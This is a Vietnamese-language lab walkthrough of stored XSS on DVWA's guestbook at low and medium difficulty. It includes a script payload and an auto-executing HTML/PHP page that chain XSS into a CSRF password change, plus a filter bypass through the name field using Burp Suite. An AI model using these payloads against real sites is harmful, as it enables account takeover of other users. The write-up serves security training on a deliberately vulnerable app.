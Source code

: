 # XSS Stored

Mục tiêu là có thể chèn được JavaScript độc hại vào trang web

**Mức độ: Thấp.**

![alt text](image.png)

Giao diện ban đầu của mức này có dạng như trên. Trước hết thì clear guestbook cũ đi. Sau đó nhập vào tên và message basic.

Sau khi nhập thì hiện ra một message đơn giản có dạng như bên dưới.

![alt text](image-1.png)

Thử chèn các câu lệnh js vào các trường ở trên. Nhận thấy trường name giới hạn kí tự có thể nhập vào, nên sẽ nhập câu lệnh vào message. Khi nhập một câu lệnh vào trong đó thì sẽ thấy câu lệnh đó được thực thi vào hiện ra một notion box

![alt text](image-2.png)

![alt text](image-3.png)

Sau khi nhập vào như này thì script đã được lưu vào trong db luôn và khi người dùng click vào sign guestbook thì notion box sẽ trả về thông tin -> lỗ hổng đã xuất hiện.

Ban đầu password của admin là admin như hình bên dưới

![alt text](image-4.png)

Ta sẽ chèn 1 script như thế này:

```JavaScript
<script>
    window.location.href = "http://localhost/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#";
</script>
```

hoặc ta có thể kết hợp với file upload -> Ta có 1 file php tự động thực thi như thế này.

```PHP
<!DOCTYPE html>
<html lang="vi">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Auto Redirect Example</title>
    <script>
        function autoExecute() {
            // Tự động chuyển hướng đến URL
            window.location.href = "http://localhost/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#";
        }
    </script>
</head>
<body onload="autoExecute()">
</body>
</html>
```

![alt text](image-5.png)

Nhìn gói tin ta bắt được từ ứng dụng có thể thấy nếu chèn vào 1 script thì các dấu đã được mã hóa -> thử mã hóa script của t chèn vào thì thấy thực hiện được thay đổi mật khẩu

![alt text](image-6.png)

![alt text](image-7.png)


**Mức độ: Trung bình.**

Làm như mức độ trên thì thầy ko có output -> code đã thay đổi

![alt text](image-8.png)

Ta thử thay đổi 1 số ký tự như Script, sCript, ... -> vẫn không ra output
-> thử nhập vào trường name -> bắt gói tin bằng burp suite sau đó sử thử trường name 

![alt text](image-9.png)

=> Thấy xuất hiện notion box -> lỗ hổng xuất hiện

![alt text](image-10.png)


